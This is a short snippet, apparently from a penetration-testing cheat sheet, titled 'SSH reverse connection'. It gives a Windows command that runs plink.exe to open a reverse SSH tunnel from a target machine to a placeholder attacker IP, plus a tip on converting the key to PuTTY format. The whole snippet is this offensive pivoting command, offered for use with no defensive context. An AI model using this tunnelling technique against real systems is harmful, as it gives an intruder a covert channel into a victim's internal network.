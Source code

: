 # SSH reverse connection
```dos
cmd.exe /c echo y | .\plink.exe -R (localport):(targetip):(targetport) user@(attackerip) -i KEYFILE -N
# must convert the key from ssh-keygen to ppk using puttygen
```